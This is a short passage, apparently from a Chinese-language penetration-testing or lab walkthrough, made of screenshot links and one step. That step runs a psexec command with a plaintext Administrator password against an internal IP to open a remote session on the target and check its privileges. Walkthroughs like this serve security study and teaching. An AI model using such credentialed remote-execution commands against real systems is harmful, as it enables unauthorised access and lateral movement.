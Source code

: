 ![image-20220616132402393451-1655884146344873.png](img/Untitled.assets/96fff69479ad3fb59225dac8c6fbbe96.png)

在该目录下打开命令行，执行命令（若出现报错请再试一次）：

```
psexec.exe Administrator:good123@@192.168.2.200
```

![image-20220616132435720968-1655884147645822.png](img/Untitled.assets/dc55f7c0c81fa6bc57d81cb5046ec3a6.png)

获取到目标会话，查看权限：

![image-20220616132533657364-1655884148959582.png](img/Untitled.assets/b415d8bb39bba6191f5f0d63710ea6a4.png)
